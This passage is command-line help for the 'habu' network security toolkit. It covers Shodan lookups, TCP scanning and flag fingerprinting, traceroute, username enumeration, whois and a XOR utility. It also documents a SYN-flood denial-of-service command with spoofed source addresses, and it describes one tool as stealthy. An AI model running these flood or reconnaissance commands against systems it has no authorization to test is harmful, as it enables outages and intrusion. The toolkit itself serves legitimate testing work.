   Usage: habu.shodan [OPTIONS] IP

     Simple shodan API client.

     Prints the JSON result of a shodan query.

     Example:

     $ habu.shodan 8.8.8.8
     {
         "hostnames": [
             "google-public-dns-a.google.com"
         ],
         "country_code": "US",
         "org": "Google",
         "data": [
             {
                 "isp": "Google",
                 "transport": "udp",
                 "data": "Recursion: enabled",
                 "asn": "AS15169",
                 "port": 53,
                 "hostnames": [
                     "google-public-dns-a.google.com"
                 ]
             }
         ],
         "ports": [
             53
         ]
     }

   Options:
     -c           Disable cache
     -v           Verbose output
     -o FILENAME  Output file (default: stdout)
     --help       Show this message and exit.

habu.synflood
-------------

.. code-block::

   Usage: habu.synflood [OPTIONS] IP

     Launch a lot of TCP connections and keeps them opened.

     Some very old systems can suffer a Denial of Service with this.

     Reference: https://en.wikipedia.org/wiki/SYN_flood

     Example:

     # sudo habu.synflood 172.16.0.10
     .................

     Each dot is a packet sent.

     You can use the options '-2' and '-3' to forge the layer 2/3 addresses.

     If you use them, each connection will be sent from a random layer2 (MAC)
     and/or layer3 (IP) address.

     You can choose the number of connections to create with the option '-c'.
     The default is never stop creating connections.

     Note: If you send the packets from your real IP address and you want to
     keep the connections half-open, you need to setup for firewall to don't
     send the RST packets.

   Options:
     -i TEXT     Wich interface to use (default: auto)
     -c INTEGER  How many packets send (default: infinit)
     -p INTEGER  Port to use (default: 135)
     -2          Forge layer2/MAC address (default: No)
     -3          Forge layer3/IP address (default: No)
     -v          Verbose
     --help      Show this message and exit.

habu.tcpflags
-------------

.. code-block::

   Usage: habu.tcpflags [OPTIONS] IP

     Send TCP packets with different flags and tell what responses receives.

     It can be used to analyze how the different TCP/IP stack implementations
     and configurations responds to packet with various flag combinations.

     Example:

     # habu.tcpflags www.portantier.com
     S  -> SA
     FS -> SA
     FA -> R
     SA -> R

     By default, the command sends all possible flag combinations. You can
     specify which flags must ever be present (reducing the quantity of
     possible combinations), with the option '-f'.

     Also, you can specify which flags you want to be present on the response
     packets to show, with the option '-r'.

     With the next command, you see all the possible combinations that have the
     FIN (F) flag set and generates a response that contains the RST (R) flag.

     Example:

     # habu.tcpflags -f F -r R www.portantier.com
     FPA  -> R
     FSPA -> R
     FAU  -> R

   Options:
     -p INTEGER  Port to use (default: 80)
     -f TEXT     Flags that must be sent ever (default: fuzz with all flags)
     -r TEXT     Filter by response flags (default: show all responses)
     -v          Verbose
     --help      Show this message and exit.

habu.tcpscan
------------

.. code-block::

   Usage: habu.tcpscan [OPTIONS] IP

     TCP Port Scanner.

     Print the ports that generated a response with the SYN flag or (if show
     use -a) all the ports that generated a response.

     It's really basic compared with nmap, but who is comparing?

     Example:

     # habu.tcpscan -p 22,23,80,443 -s 1 45.77.113.133
     22 S -> SA
     80 S -> SA
     443 S -> SA

   Options:
     -p TEXT     Ports to use (default: 80) example: 20-23,80,135
     -i TEXT     Interface to use
     -f TEXT     Flags to use (default: S)
     -s TEXT     Time between probes (default: send all together)
     -t INTEGER  Timeout for each probe (default: 2 seconds)
     -a          Show all responses (default: Only containing SYN flag)
     -v          Verbose output
     --help      Show this message and exit.

habu.traceroute
---------------

.. code-block::

   Usage: habu.traceroute [OPTIONS] IP

     TCP traceroute.

     Identify the path to a destination getting the ttl-zero-during-transit
     messages.

     Note: On the internet, you can have various valid paths to a device.

     Example:

     # habu.traceroute 45.77.113.133
     IP / ICMP 192.168.0.1 > 192.168.0.5 time-exceeded ttl-zero-during-transit / IPerror / TCPerror
     IP / ICMP 10.242.4.197 > 192.168.0.5 time-exceeded ttl-zero-during-transit / IPerror / TCPerror / Padding
     IP / ICMP 200.32.127.98 > 192.168.0.5 time-exceeded ttl-zero-during-transit / IPerror / TCPerror / Padding
     .
     IP / ICMP 4.16.180.190 > 192.168.0.5 time-exceeded ttl-zero-during-transit / IPerror / TCPerror
     .
     IP / TCP 45.77.113.133:http > 192.168.0.5:ftp_data SA / Padding

     Note: It's better if you use a port that is open on the remote system.

   Options:
     -p INTEGER  Port to use (default: 80)
     -i TEXT     Interface to use
     --help      Show this message and exit.

habu.usercheck
--------------

.. code-block::

   Usage: habu.usercheck [OPTIONS] USERNAME

     Check if the given username exists on various social networks and other
     popular sites.

     $ habu.usercheck portantier
     {
         "aboutme": "https://about.me/portantier",
         "disqus": "https://disqus.com/by/portantier/",
         "github": "https://github.com/portantier/",
         "ifttt": "https://ifttt.com/p/portantier",
         "lastfm": "https://www.last.fm/user/portantier",
         "medium": "https://medium.com/@portantier",
         "pastebin": "https://pastebin.com/u/portantier",
         "pinterest": "https://in.pinterest.com/portantier/",
         "twitter": "https://twitter.com/portantier",
         "vimeo": "https://vimeo.com/portantier"
     }

   Options:
     -c      Disable cache
     -v      Verbose output
     -w      Open each valid url in a webbrowser
     --help  Show this message and exit.

habu.vhosts
-----------

.. code-block::

   Usage: habu.vhosts [OPTIONS] HOST

     Use Bing to query the websites hosted on the same IP address.

     $ habu.vhosts www.telefonica.com
     www.telefonica.com -> 212.170.36.79
     [
         'www.telefonica.es',
         'universitas.telefonica.com',
         'www.telefonica.com',
     ]

   Options:
     -c          Disable cache
     -p INTEGER  Pages count (Default: 10)
     -f INTEGER  First result to get (Default: 1)
     --help      Show this message and exit.

habu.virustotal
---------------

.. code-block::

   Usage: habu.virustotal [OPTIONS] INPUT

     Send a file to VirusTotal https://www.virustotal.com/ and print the report
     in JSON format.

     Note: Before send a file, will check if the file has been analyzed before
     (sending the sha256 of the file), if a report exists, no submission will
     be made, and you will see the last report.

     $ habu.virustotal meterpreter.exe
     Verifying if hash already submitted: f4826b219aed3ffdaa23db26cfae611979bf215984fc71a1c12f6397900cb70d
     Sending file for analysis
     Waiting/retrieving the report...
     {
         "md5": "0ddb015b5328eb4d0cc2b87c39c49686",
         "permalink": "https://www.virustotal.com/file/c9a2252b491641e15753a4d0c4bb30b1f9bd26ecff2c74f20a3c7890f3a1ea23/analysis/1526850717/",
         "positives": 49,
         "resource": "c9a2252b491641e15753a4d0c4bb30b1f9bd26ecff2c74f20a3c7890f3a1ea23",
         "response_code": 1,
         "scan_date": "2018-05-20 21:11:57",
         "scan_id": "c9a2252b491641e15753a4d0c4bb30b1f9bd26ecff2c74f20a3c7890f3a1ea23-1526850717",
         "scans": {
             "ALYac": {
                 "detected": true,
                 "result": "Trojan.CryptZ.Gen",
                 "update": "20180520",
                 "version": "1.1.1.5"
             },
             ... The other scanners ...
         },
         "sha1": "5fa33cab1729480dd023b08f7b91a945c16d0a9e",
         "sha256": "c9a2252b491641e15753a4d0c4bb30b1f9bd26ecff2c74f20a3c7890f3a1ea23",
         "total": 67,
         "verbose_msg": "Scan finished, information embedded"
     }

   Options:
     -v      Verbose output
     --help  Show this message and exit.

habu.web.report
---------------

.. code-block::

   Usage: habu.web.report [OPTIONS] [F]

     Uses Firefox to take a screenshot of the websites. (you need firefox
     installed, obviously)

     Makes a report that includes the HTTP headers.

     The expected format is one url per line.

     Creates a directory called 'report' with the content inside.

     $ echo https://www.portantier.com | habu.web.report

   Options:
     -v      Verbose output
     --help  Show this message and exit.

habu.web.screenshot
-------------------

.. code-block::

   Usage: habu.web.screenshot [OPTIONS] URL

     Uses Firefox to take a screenshot (you need firefox installed, obviously)

     $ habu.web.screenshot https://www.portantier.com

   Options:
     -o TEXT  Output file. (default: screenshot.png)
     --help   Show this message and exit.

habu.web.tech
-------------

.. code-block::

   Usage: habu.web.tech [OPTIONS] URL

     Use Wappalyzer apps.json database to identify technologies used on a web
     application.

     Reference: https://github.com/AliasIO/Wappalyzer

     Note: This tool only sends one request. So, it's stealth and not
     suspicious.

     $ habu.webid https://woocomerce.com
     {
         "Nginx": {
             "categories": [
                 "Web Servers"
             ]
         },
         "PHP": {
             "categories": [
                 "Programming Languages"
             ]
         },
         "WooCommerce": {
             "categories": [
                 "Ecommerce"
             ],
             "version": "6.3.1"
         },
         "WordPress": {
             "categories": [
                 "CMS",
                 "Blogs"
             ]
         },
     }

   Options:
     -c      Disable cache
     -v      Verbose output
     --help  Show this message and exit.

habu.whois.domain
-----------------

.. code-block::

   Usage: habu.whois.domain [OPTIONS] DOMAIN

     Simple whois client to check domain names.

     Example:

     $ habu.whois.domain portantier.com
     {
         "domain_name": "portantier.com",
         "registrar": "Amazon Registrar, Inc.",
         "whois_server": "whois.registrar.amazon.com",
         ...

   Options:
     --help  Show this message and exit.

habu.whois.ip
-------------

.. code-block::

   Usage: habu.whois.ip [OPTIONS] IP

     Simple whois client to check IP addresses (IPv4 and IPv6).

     Example:

     $ habu.whois.ip 8.8.8.8
     {
         "nir": null,
         "asn_registry": "arin",
         "asn": "15169",
         "asn_cidr": "8.8.8.0/24",
         "asn_country_code": "US",
         "asn_date": "1992-12-01",
         "asn_description": "GOOGLE - Google LLC, US",
         "query": "8.8.8.8",
         ...

   Options:
     --help  Show this message and exit.

habu.xor
--------

.. code-block::

   Usage: habu.xor [OPTIONS]

     XOR cipher.

     Note: XOR is not a 'secure cipher'. If you need strong crypto you must use
     algorithms like AES. You can use habu.fernet for that.

     Example:

     $ habu.xor -k mysecretkey -i /bin/ls > xored
     $ habu.xor -k mysecretkey -i xored > uxored
     $ sha1sum /bin/ls uxored
     $ 6fcf930fcee1395a1c95f87dd38413e02deff4bb  /bin/ls
     $ 6fcf930fcee1395a1c95f87dd38413e02deff4bb  uxored

   Options:
     -k TEXT      Encryption key
     -i FILENAME  Input file (default: stdin)
     -o FILENAME  Output file (default: stdout)
     --help       Show this message and exit.
